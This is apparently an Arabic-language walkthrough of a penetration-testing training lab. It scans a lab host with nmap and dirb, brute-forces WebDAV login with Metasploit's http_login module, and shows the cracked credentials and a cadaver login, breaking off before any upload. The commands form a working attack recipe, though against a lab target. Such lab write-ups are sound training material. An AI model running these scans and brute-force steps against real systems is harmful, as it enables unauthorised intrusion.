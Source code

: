 ```bash
type C:\FLAG1.txt  
```  
ونشوف انه قرا الفلاق والوضع تمام  
الى هنا انتهى اللاب نشوف الي بعده  

---  


Blind Penetration Test
-----------------------|  

طيب بداية خل نشوف فيه اتصال بيننا وبين التارقت او لا  
```bash
ping demo.ine.local  
```  
نشوف انه فيه اتصال خلونا نفحص التارقت  
```bash
nmap -sV -sC demo.ine.local  
```  
طيب حصلنا بورت 80 مفتوح خلونا نشوف نفتح البراوزر  
طبعا حلو نقدر نبحث عن cve او انه نشوف نبحث عن مسارات  
خلونا نمشي مع اللاب ونشوف المسارات  
```bash
dirb http://demo.ine.local  
```  
نشوف انه حصلنا مسار /webdav  
طيب حنا نعرف انه مصاب الـ webdav خلونا نستغله فورا  
```bash
davtest -url http://demo.ine.local/webdav  
```  
نشوف انه ماعطانا وش الملفات الي نقدر نرفعها لانه مطلوب يوزر وباسورد  
خلونا نسوي بروت فورس ونحاول نطلعهم عندنا طريقتين ياعن طريق هايدرا او عن طريق ميتاسبلويت  
```bash
msfconsole -q
use auxiliary/scanner/http/http_login  
set RHOSTS demo.ine.local  
set AUTH_URI /webdav/  
set USER_FILE  /usr/share/metasploit-framework/data/wordlists/common_users.txt  
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  
set VERBOSE false  
exploit  
```  
نشوف انه حصلنا اليوزر والباسورد  
```bash
bob:sunshine  
administrator:tigger  
```  
طيب حلو خلونا نرجع نشوف وش نقدر نرفع عن طريق davtest  
```bash
davtest -auth administrator:tigger  -url http://demo.ine.local/webdav  
```  
نشوف انه قالنا انه نقدر نرفع ملفات بالامتدادات التاليه txt , html . asp  
خلونا نسجل دخول عن طريق اداة cadaver  
```bash
cadaver http://demo.ine.local/webdav  
Username: administrator  
Password: tigger  
ls  
```  
